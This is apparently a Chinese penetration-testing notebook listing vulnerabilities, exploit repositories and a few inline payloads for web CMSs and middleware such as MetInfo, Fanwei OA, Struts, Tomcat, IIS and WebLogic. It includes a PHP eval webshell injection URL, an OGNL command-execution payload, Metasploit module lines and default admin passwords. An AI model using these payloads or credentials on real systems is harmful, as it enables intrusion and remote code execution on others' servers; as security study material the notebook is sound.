

# web 各类服务和中间件渗透笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Reference
- [中间件漏洞合集](https://mp.weixin.qq.com/s/yN8lxwL-49OKfVR86JF01g)

---

# 各类论坛/CMS/框架
## dedeCMS
鸽

## Discuz
鸽

## Drupal
鸽

## ECshop
鸽

## Joomla
**工具**
- [rezasp/joomscan](https://github.com/rezasp/joomscan)

## [MetInfo](https://www.metinfo.cn/)
**CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码。

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

## [phpMyAdmin](https://www.phpmyadmin.net/)
**LOAD DATA INFILE 任意文件读取漏洞**
- POC | Payload | exp
    [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
    ```vim
    vim rogue_mysql_server.py

    PORT = 3307
    ```
    `python rogue_mysql_server.py`

    打开目标 phpMyAdmin 的登录页面，地址输入 db:3307、用户名、密码，提交登录。

    回到db的终端，如果文件读取成功会将文件内容记录到 mysql.log 文件中

**4.8.x 本地文件包含漏洞利用**

- [phpMyAdmin 4.8.x 本地文件包含漏洞利用 | Vulnspy Blog](http://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/) 可以通过这个线上靶场实验,不过 docker 镜像可能有点问题,mysql 进程起不起来,我的解决方式是直接卸了重装 mysql-server,而且他默认的 apt 源无法访问,还要换一下 apt 源

## [YxCMS](http://www.yxcms.net/index.html)
**常见路径**
```
/index.php?r=admin  # 后台  默认管理员账号密码 admin 123456
```

**YxCMS 1.4.7 多个漏洞**
- 文章
    - [YxCMS 1.4.7 最新版漏洞分析](https://bbs.ichunqiu.com/thread-45926-1-1.html)

## 泛微
**e-mobile < 6.5 Ognl 表达式注入**
- 文章
    - [关于表达式注入的小记录](https://zhuanlan.zhihu.com/p/26052235)
    - [泛微 E-Mobile Ognl 表达式注入](https://blog.csdn.net/qq_27446553/article/details/68203308)
    - [泛微E-Mobile Ognl 表达式注入](https://docs.ioin.in/writeup/www.sh0w.top/_index_php_archives_14_/index.html)

- POC | Payload | exp
    ```
    message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
    ```

**e-cology OA Beanshell 组件远程代码执行**
- 文章
    - [[漏洞预警]泛微e-cology OA Beanshell组件远程代码执行分析](https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg)

- POC | Payload | exp
    - [jas502n/e-cology](https://github.com/jas502n/e-cology)

## 致远 OA
**A8-OA-seeyon-RCE**
- 文章
    - [致远A8协同办公系统poc/seeyon 0day](https://www.jianshu.com/p/562f45edde2d)

- POC | Payload | exp
    - [RayScri/A8-OA-seeyon-RCE](https://github.com/RayScri/A8-OA-seeyon-RCE)

---

# 中间件/服务
**toolkit**
- [hatRiot/clusterd](https://github.com/hatRiot/clusterd)

## 编辑器

**手册**
- [编辑器漏洞手册](https://navisec.it/%e7%bc%96%e8%be%91%e5%99%a8%e6%bc%8f%e6%b4%9e%e6%89%8b%e5%86%8c/)

**ewebeditor**
- 文章
    - [ewebeditor 编辑器漏洞总结](https://www.0dayhack.com/post-426.html)

- 常用路径
    ```
    Admin_Login.asp 登录页面
    Admin_Default.asp 管理首页
    Admin_Style.asp
    Admin_UploadFile.asp
    Upload.asp
    Admin_ModiPwd.asp
    eWebEditor.asp
    db/ewebeditor.mdb 默认数据库路径
    ewebeditor/login_admin.asp
    eweb/login_admin.asp
    editor/login_admin.asp
    ```

**FCKeditor**
- 文章
    - [Fckeditor上传漏洞利用拿shell总结](https://www.0dayhack.com/post-413.html)

- 常用路径
    ```
    FCKeditor/_samples/default.html   查看编辑器版本
    FCKeditor/_whatsnew.html
    fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
    FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
    FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
    FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.test.com%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php
    FCKeditor/_samples/asp/sample01.asp
    FCKeditor/_samples/asp/sample02.asp
    FCKeditor/_samples/asp/sample03.asp
    FCKeditor/_samples/asp/sample04.asp
    ```

**kindeditor**
- **kindeditor<=4.1.5 上传漏洞**
    - 文章
        - [kindeditor<=4.1.5上传漏洞复现](https://www.cnblogs.com/backlion/p/10421405.html)

    - 漏洞修复
        1. 直接删除 `upload_json.*` 和 `file_manager_json.*`
        2. 升级 kindeditor 到最新版本

---

## ActiveMQ
**测试链接**

- `http://<ip>:8161`

---

## Apache
**CVE-2017-9798** Optionsbleed 服务器内存信息泄漏漏洞
- 文章
    - [Optionsbleed 漏洞泄露 Apache Server 的内存信息](https://www.freebuf.com/vuls/148525.html)

- POC | Payload | exp
    - [hannob/optionsbleed](https://github.com/hannob/optionsbleed)

---

## [Apache Struts](https://cwiki.apache.org/confluence/display/WW/Security+Bulletins)
**工具**
- [Lucifer1993/struts-scan](https://github.com/Lucifer1993/struts-scan) - Python2 编写的 struts2 漏洞全版本检测和利用工具
- [HatBoy/Struts2-Scan](https://github.com/HatBoy/Struts2-Scan) - Python3 Struts2 全漏洞扫描利用工具

**环境收集**
- [wh1t3p1g/Struts2Environment](https://github.com/wh1t3p1g/Struts2Environment)
- [sie504/Struts-S2-xxx](https://github.com/sie504/Struts-S2-xxx)
- [https://github.com/shengqi158/S2-055-PoC](https://github.com/shengqi158/S2-055-PoC)

**文章**
- [Struts2 历史 RCE 漏洞回顾不完全系列](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities/)

**S2-016 & CVE-2013-2251**

**S2-020 & CVE-2014-0094 & CNNVD-201403-191**

**S2-045 & CVE-2017-5638**
- POC | Payload | exp
    - [tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)
    - [iBearcat/S2-045](https://github.com/iBearcat/S2-045)

**S2-046 & CVE-2017-5638**

- 简介

    该漏洞是由于上传功能的异常处理函数没有正确处理用户输入的错误信息，导致远程攻击者可通过修改 HTTP 请求头中的 Content-Type 值，构造发送恶意的数据包，利用该漏洞进而在受影响服务器上执行任意系统命令。

- 修复方案
    1. 官方已经发布版本更新，尽快升级到不受影响的版本(Struts 2.3.32 或 Struts 2.5.10.1)，建议在升级前做好数据备份。
    2. 临时修复方案
    在用户不便进行升级的情况下，作为临时的解决方案，用户可以进行以下操作来规避风险：在 WEB-INF/classes 目录下的 struts.xml 中的 struts 标签下添加
    `<constant name="struts.custom.i18n.resources" value="global" />`
    在 WEB-INF/classes/ 目录下添加 global.properties，文件内容如下：
    `struts.messages.upload.error.InvalidContentTypeException=1`

- POC | Payload | exp
    - [mazen160/struts-pwn](https://github.com/mazen160/struts-pwn)

**S2-048 & CVE-2017-9791**
- POC | Payload | exp
    - [dragoneeg/Struts2-048](https://github.com/dragoneeg/Struts2-048)

**S2-052 & CVE-2017-9805**
- POC | Payload | exp
    - [mazen160/struts-pwn_CVE-2017-9805](https://github.com/mazen160/struts-pwn_CVE-2017-9805)

**S2-053 & CVE-2017-12611**
- POC | Payload | exp
    - [brianwrf/S2-053-CVE-2017-12611](https://github.com/brianwrf/S2-053-CVE-2017-12611)

**S2-055 & CVE-2017-7525**
- POC | Payload | exp
    - [iBearcat/S2-055](https://github.com/iBearcat/S2-055)

**S2-056 & CVE-2018-1327**
- POC | Payload | exp
    - [ iBearcat/S2-056-XStream](https://github.com/iBearcat/S2-056-XStream)

**S2-057 & CVE-2018-11776**

- 简介

    该漏洞由 Semmle Security Research team 的安全研究员 Man YueMo 发现。该漏洞是由于在 Struts2 开发框架中使用 namespace 功能定义 XML 配置时，namespace 值未被设置且在上层动作配置(Action Configuration)中未设置或用通配符 namespace，可能导致远程代码执行。

- POC | Payload | exp
    - [Ivan1ee/struts2-057-exp](https://github.com/Ivan1ee/struts2-057-exp)

---

## Apache Tomcat
Tomcat 默认端口为 8080，也可能被改为其他端口，后台管理路径为 `/manager/html`，后台默认弱口令 admin/admin、tomcat/tomcat 等，若果配置不当，可通过”Tomcat Manager”连接部署 war 包的方式获取 webshell。

**文章**
- [Tomcat漏洞详解](http://www.mottoin.com/detail/389.html)

**CVE-2017-12615**
- 文章
    - [CVE-2017-12615/CVE-2017-12616:Tomcat信息泄漏和远程代码执行漏洞分析报告](https://paper.seebug.org/399/)

- POC | Payload | exp
        - [iBearcat/CVE-2017-12615](https://github.com/iBearcat/CVE-2017-12615)
        - [breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

**CVE-2017-12617**
- 文章
    - [CVE-2017-12617-Tomcat远程代码执行漏洞复现测试](https://www.freebuf.com/vuls/150203.html)

- POC | Payload | exp
    - [cyberheartmi9/CVE-2017-12617](https://github.com/cyberheartmi9/CVE-2017-12617)

- MSF 模块
    ```
    use exploit/multi/http/tomcat_jsp_upload_bypass
    ```

**CVE-2019-0232**
- 文章
    - [CVE-2019-0232：Apache Tomcat RCE漏洞分析](https://xz.aliyun.com/t/4875)

- POC | Payload | exp
    - [pyn3rd/CVE-2019-0232](https://github.com/pyn3rd/CVE-2019-0232)
    - [jas502n/CVE-2019-0232](https://github.com/jas502n/CVE-2019-0232)

---

## ElasticSearch
**未授权访问漏洞**

- `http://<ip>:9200`

---

## JBOSS
**工具**
- [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss)

**未授权访问漏洞**

- `http://<ip>:8080/jmx-console`

---

## IIS
**IIS shortname**

windows 在创建一个新文件时，操作系统还会生成 8.3 格式的兼容 MS-DOS 的(短)文件名，以允许基于 MS-DOS 或16位 windows 的程序访问这些文件。

- 文章
    - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
    - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
    - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

- 修复方案
    1. 升级 .net framework 至 4.0 版本或以上
    2. 修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem
    值 NtfsDisable8dot3NameCreation 为 1

- 示例
    ```bash
    dir /x
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    #若1返回404而2返回400，则可以判断目标站点存在漏洞。
    http://www.xxx.com/a*~1*/.aspx
    #若存在将返回404，不存在则返回400。以此类推，不断向下猜解所有的6个字符。
    ```

- POC | Payload | exp
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

**.Net Framework 拒绝服务攻击**

当请求文件夹名称包含 ~1 的请求，会导致不存在该文件的 .Net Framework 去递归查询所有根目录。如果只有一个“~1”是无效的，当“~1”大于一个，比如像这样：
`/wwwtest/fuck~1/~1/~1/~1.aspx`
此时文件系统会这样调用：
```
\wwwtest                           SUCCESS
\wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest\fuck~1\~1\                PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
\wwwtest\fuck~1\~1\~1              PATH NOT FOUND
\wwwtest\fuck~1\~1                 PATH NOT FOUND
\wwwtest\fuck~1                    NAME NOT FOUND
\wwwtest                           SUCCESS
\wwwtest                           SUCCESS
```
如果我们请求的文件/文件夹名同时存在大小写时，这个请求会被请求两次，一次是原封不动的请求，一次是全部使用小写的请求。

下表显示了每个请求的 FS 调用的数量(Windows 2008 R2, IIS 7.5(latest patch – June 2012), and .Net framework 4.0.30319 (在别的系统下可能会不同))


**CVE-2017-7269** IIS6.0 RCE
- POC | Payload | exp
    - [zcgonvh/cve-2017-7269](https://github.com/zcgonvh/cve-2017-7269)
    - [zcgonvh/cve-2017-7269-tool](https://github.com/zcgonvh/cve-2017-7269-tool)
    - [lcatro/CVE-2017-7269-Echo-PoC](https://github.com/lcatro/CVE-2017-7269-Echo-PoC)
    - [edwardz246003/IIS_exploit](https://github.com/edwardz246003/IIS_exploit)

- MSF 模块

    - `use exploit/windows/iis/cve-2017-7269`

---

## Weblogic
`老版本 weblogic 有一些常见的弱口令，比如 weblogic、system、portaladmin 和 guest 等，用户名密码交叉使用。`

**工具**
- [dr0op/WeblogicScan](https://github.com/dr0op/WeblogicScan)
- [rabbitmask/WeblogicScan](https://github.com/rabbitmask/WeblogicScan)
- [rabbitmask/WeblogicScanLot](https://github.com/rabbitmask/WeblogicScanLot)

**文章**
- [利用Weblogic进行入侵的一些总结](http://drops.xmd5.com/static/drops/tips-8321.html)

**CVE-2009-1975**
- POC | Payload | exp
    - [Oracle WebLogic Server 10.3 - 'console-help.portal' Cross-Site Scripting](https://www.exploit-db.com/exploits/33079)

- 示例

    - `http://www.example.com:7011/consolehelp/console-help.portal?_nfpb=true&_pageLabel=ConsoleHelpSearchPage&searchQuery="><script>alert('DSECRG')</script> `

**CVE-2017-10271**
- 文章
    - [WebLogic XMLDecoder反序列化漏洞复现](https://mochazz.github.io/2017/12/25/weblogic_xmldecode/)
    - [blog-hugo/content/blog/Weblogic-0day.md](https://github.com/kylingit/blog-hugo/blob/master/content/blog/Weblogic-0day.md)

- 检测方法
    - `<目标IP:端口>/wls-wsat/CoordinatorPortType11`

- POC | Payload | exp
    - [1337g/CVE-2017-10271](https://github.com/1337g/CVE-2017-10271)

**CVE-2018-2628**
- 文章
    - [CVE-2018-2628 简单复现与分析 | xxlegend](http://xxlegend.com/2018/04/18/CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/)

- POC | Payload | exp
    - [shengqi158/CVE-2018-2628](https://github.com/shengqi158/CVE-2018-2628)

**CVE-2018-2893**
- 文章
    - [天融信关于CVE-2018-2893 WebLogic反序列化漏洞分析](https://www.freebuf.com/column/178103.html)

- POC | Payload | exp
    - [pyn3rd/CVE-2018-2893](https://github.com/pyn3rd/CVE-2018-2893)

**CVE-2018-2894**
- 文章
    - [Weblogic CVE-2018-2894 漏洞复现](https://blog.csdn.net/qq_23936389/article/details/81256015)

- POC | Payload | exp
    - [LandGrey/CVE-2018-2894](https://github.com/LandGrey/CVE-2018-2894)

**CVE-2018-3191**
- 文章
    - [从流量侧浅谈WebLogic远程代码执行漏洞(CVE-2018-3191)](https://www.jianshu.com/p/f73b162c4649)

- POC | Payload | exp
    - [voidfyoo/CVE-2018-3191](https://github.com/voidfyoo/CVE-2018-3191)

**CVE-2018-3245**
- 文章
    - [weblogic反序列化漏洞 cve-2018-3245](https://blog.51cto.com/13770310/2308371)

- POC | Payload | exp
    - [pyn3rd/CVE-2018-3245](https://github.com/pyn3rd/CVE-2018-3245)

**CVE-2018-3246**
- 文章
    - [看我如何在Weblogic里捡一个XXE（CVE-2018-3246）](https://www.freebuf.com/vuls/186862.html)

- POC | Payload | exp

    - [hackping/XXEpayload](https://github.com/hackping/XXEpayload/tree/master/xxe)
    - `http://127.0.0.1:8338/ws_utc/begin.do`

**CVE-2019-2725 && CNVD-C-2019-48814**
- 文章
    - [CNVD-C-2019-48814 Weblogic wls9_async_response 反序列化RCE复现](https://www.jianshu.com/p/c4982a845f55)

- 检测方法
    ```bash
    <目标 IP:端口>/_async/AsyncResponseService
    <目标 IP:端口>/wls-wsat/CoordinatorPortType
    ```

- POC | Payload | exp
    - [MyTools/CVE-2019-2725](https://github.com/No4l/MyTools/tree/master/CVE-2019-2725)
    - [skytina/CNVD-C-2019-48814-COMMON](https://github.com/skytina/CNVD-C-2019-48814-COMMON)
    - [lufeirider/CVE-2019-2725](https://github.com/lufeirider/CVE-2019-2725)
